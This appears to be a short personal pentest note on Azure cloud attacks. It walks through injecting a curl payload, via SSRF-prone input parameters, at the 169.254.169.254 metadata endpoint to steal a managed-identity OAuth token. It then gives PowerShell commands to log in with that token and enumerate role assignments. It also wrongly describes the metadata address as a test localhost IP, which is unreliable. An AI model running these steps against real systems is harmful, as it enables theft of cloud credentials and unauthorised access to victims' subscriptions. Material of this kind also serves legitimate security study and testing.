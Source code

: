 
Check for vulnerable input parameters in the asset, where you could inject payloads like:

```
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

==Remember that 169.254.169.254 is a test IP that works as a localhost in the cloud.==

This payload can retrieve metadata of the endpoint, and obtain an authentication token. If you do, then you will need to use the Powershell cli to connect to the endpoint:

`PS> $token = “AccessToken”
`PS> Connect-AzAccount -AccessToken $token -AccountId [Subscription ID]`

You can further expand your knowledge on the token using this site:
https://jwt.io/
It will break down the information about it.
You can obtain the subscription ID from the token, it could be like this:
"/subscriptions/[value of the subscription ID]/"

Once you are logged in with the token, you can check the role assignment of a managed identity attached to the VM:

`Get-AzRoleAssignment -ObjectId [PrincipalID-ManagedIdentity]`




### Properties
---
📆 created   {{08-01-2025}} 21:17
🏷️ tags: #cloud #azure 

---

